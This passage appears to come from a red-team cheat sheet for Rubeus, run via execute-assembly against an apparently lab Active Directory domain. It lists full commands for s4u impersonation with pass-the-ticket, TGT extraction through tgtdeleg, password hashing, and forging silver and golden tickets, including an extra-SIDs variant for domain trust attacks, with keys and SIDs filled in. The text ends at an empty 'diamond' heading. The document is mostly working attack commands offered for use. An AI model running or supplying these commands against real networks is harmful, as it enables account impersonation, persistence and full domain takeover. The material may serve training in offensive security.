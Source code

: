 Requests a service ticket for a service and modifies the SPN to the specified `altservice` with a pass the ticket method.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:host/wkstn-2 /user:wkstn-2$ /ticket:doIGkD[...snip...]5pbw== /ptt
```

### hash

Calculates the hashes of a password.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
```

### tgtdeleg

Returns a usable TGT for the current user. (non-elevated)

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
```


### silver

Forges a silver ticket for a specified service.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
```


### golden

Forges a golden ticket for a specified user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap
```

#### Extra SIDs

Takes multiple SIDs. Mainly used in domain trust attacks.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap
```


### diamond
